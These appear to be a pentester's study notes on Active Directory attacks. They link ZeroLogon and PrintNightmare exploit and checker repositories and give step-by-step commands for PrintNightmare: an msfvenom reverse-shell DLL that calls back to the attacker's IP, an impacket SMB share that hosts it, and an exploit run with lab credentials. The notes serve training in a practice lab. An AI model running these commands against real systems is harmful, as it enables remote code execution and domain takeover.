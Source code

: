 
- Check for these **at the very end if you do not have choice**.
- **Do Not run ZeroLogon ever**
- **Check before running** (metasploit has these checker scripts)
![[Pasted image 20250330162334.png]]


- **ZeroLogon**
---
- https://github.com/dirkjanm/CVE-2020-1472 => Exploit
- https://github.com/SecuraBV/CVE-2020-1472 => Checker

- **PrintNightmare (PrinterSpooler)**
---
- RCE: https://github.com/cube0x0/CVE-2021-1675
- LPE: https://github.com/calebstewart/CVE-2021-1675

- Generate malicious dll:
	- `msfvenom -p windows/x64/reverse_tcp LHOST=<our_ip> LPORT=4444 -f dll > shell.dll`
	- `msfconsole` and `set same options`
- Host a smb server to host dll file:
	- `impacket-smbserver share <our_directory> -smb2support`
 - Run the exploit:
	-  `python3 CVE-2021-1675.py marvel.local/fcastle:Password1@10.0.1.4 '\\<our_ip>\share\shell.dll'`